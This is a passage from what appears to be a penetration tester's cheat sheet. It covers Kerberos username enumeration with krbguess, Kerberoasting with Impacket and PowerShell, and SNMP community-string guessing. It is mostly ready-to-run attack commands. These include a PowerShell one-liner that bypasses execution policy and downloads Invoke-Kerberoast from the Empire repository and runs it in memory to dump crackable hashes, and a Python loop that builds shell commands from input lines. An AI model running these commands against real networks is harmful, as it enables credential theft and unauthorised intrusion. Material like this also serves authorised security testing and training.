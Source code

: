   ```
    pushd /opt/
    wget http://www.cqure.net/tools/krbguess-0.21-bin.tar.gz
    tar xvf krbguess-0.21-bin.tar.gz
    rm  krbguess-0.21-bin.tar.gz
    echo "alias krbguess='/usr/lib/jvm/java-8-openjdk-amd64/bin/java -jar /opt/KrbGuess/krbguess.jar'" >> /root/.bash_aliases
    popd
    ```
  - Identify the naming convention used (check OSINT for emails, printers, network traffic, etc.), then check [this repo](https://github.com/insidetrust/statistically-likely-usernames) for massive lists of usernames. This should be enough in large enviros.
    ```
    krbguess --realm firenation.com --server dc.firenation.com --dict jsmith.txt -o krbguess-jsmith-firenation.txt
    ```
- Kerberoasting
  - Impacket has a great python port. [TODO: check output for hashes]
    ```
    GetUserSPNs.py 'firenation/azula:Fir3R0cks' -o getuserspns-firenation.txt
    ```
  - Powershell port:
    ```
    powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat"
    ```
    

## UDP/161 SNMP
- Run `onesixtyone` to guess some SNMP strings:
  ```
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt -o snmp-strings.txt
  onesixtyone -c snmp-strings.txt -i hosts.txt -o onesixtyone-snmp-guess.txt
  ```

- Parse `onesixtyone` results so it's `10.10.10.10 public` in a txt file, then run this py script to `snmp-check` all the things and check if any is RW access:
```python
#!/usr/bin/env python
import os, sys
with open('onesixtyone/onesixtyone-checkfree.txt', 'r') as file:
  lines = file.readlines()
  lines = [x.strip() for x in lines]
  for line in lines:
    host,string = line.split(' ')
    cmd1 = "snmp-check -w -c "+"'"+string+"' "+host+" > snmp-check/snmp-check-"+host+"-v1.txt"
    print('[+] Running: '+cmd1)
    os.system(cmd1)
    cmd2 = "snmp-check -w -v 2c -c "+"'"+string+"' "+host+" > snmp-check/snmp-check-"+host+"-v2c.txt"
    print('[+] Running: '+cmd2)
    os.system(cmd2)
file.close
```
